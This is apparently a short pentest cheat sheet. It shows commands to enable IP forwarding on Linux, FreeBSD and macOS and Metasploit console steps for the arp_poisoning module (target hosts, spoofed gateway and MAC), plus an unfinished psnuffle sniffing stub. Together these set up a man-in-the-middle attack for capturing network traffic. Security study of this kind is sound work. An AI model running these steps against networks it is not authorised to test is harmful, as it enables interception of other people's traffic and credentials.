 # Metasploit

## 01 - Enable IP Forwarding

### 1.1 - Linux

The universal command to enable it.

```
$ sudo sysctl -w net.ipv4.ip_forward=1

# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 1.2 - FreeBSD

The universal command to enable it.

```
$ sudo sysctl -w net.inet.ip.forwarding=1
```

### 1.3 - Mac OSX

The universal command to enable it.

```
$ sudo sysctl net.inet.ip.forwarding=1
```

## 02 - ARP Poisoning and PSnuffle

Auxiliary module for ARP poisoning

```
msf > use auxiliary/spoof/arp/arp_poisoning

msf auxiliary(spoof/arp/arp_poisoning) > options

Module options (auxiliary/spoof/arp/arp_poisoning):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   AUTO_ADD       false            yes       Auto add new host when discovered by the listener
   BIDIRECTIONAL  false            yes       Spoof also the source with the dest
   DHOSTS                          yes       Target ip addresses
   INTERFACE                       no        The name of the interface
   LISTENER       true             yes       Use an additional thread that will listen for arp requests to reply as fast as possible
   SHOSTS                          yes       Spoofed ip addresses
   SMAC                            no        The spoofed mac


View the full module info with the info, or info -d command.

msf auxiliary(spoof/arp/arp_poisoning) > set auto_add <true | false>

msf auxiliary(spoof/arp/arp_poisoning) > set bidirectional <true | false>

msf auxiliary(spoof/arp/arp_poisoning) > set listener <true | false>

msf auxiliary(spoof/arp/arp_poisoning) > set dhosts <target_IP>

msf auxiliary(spoof/arp/arp_poisoning) > set interface <interface>

msf auxiliary(spoof/arp/arp_poisoning) > set shosts <gateway_IP>

msf auxiliary(spoof/arp/arp_poisoning) > set smac <spoofed_MAC_Address>
```

- Auxiliary module for sniffing network protocols

TODO: Fill this info

```
msf > use auxiliary/sniffer/psnuffle

msf auxiliary(sniffer/psnuffle) > options
```

---
## References

### Purple Serendipity

- [Purple Serendipity: Run ARP Poisoning Attacks with Metasploit and Detect Them with Wireshark](https://fabian-voith.de/2020/04/24/run-arp-poisoning-attacks-with-metasploit-and-detect-them-with-wireshark/)